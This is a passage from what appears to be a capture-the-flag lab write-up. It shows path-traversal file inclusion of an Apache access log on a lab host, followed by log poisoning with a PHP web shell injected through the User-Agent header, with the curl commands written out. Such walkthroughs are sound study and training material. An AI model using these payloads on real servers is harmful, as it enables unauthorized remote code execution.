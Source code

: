 First we confirm our ability to access apache.log via LFI.

```
curl http://192.168.154.72:8593/index.php?book=../../../../../var/log/apache2/access.log
```

![Image](/assets/images/solstice_accesslog.png)

Next we send a request with a modified user-agent containing our PHP payload to the apache server.  This snippet will allow us to execute arbitrary CLI commands using the LFI vulnerability.

```
curl -A "<?php system(\$_GET['cmd']); ?>" http://192.168.154.72
```

![Image](/assets/images/solstice_payload.png)

Accessing apache.log again shows a new entry in the log with a blank user agent.  The user-agent appears blank because our snippet is being interpreted and executed as php code instead of being served as plaintext.

```
curl http://192.168.154.72:8593/index.php?book=../../../../../var/log/apache2/access.log
```
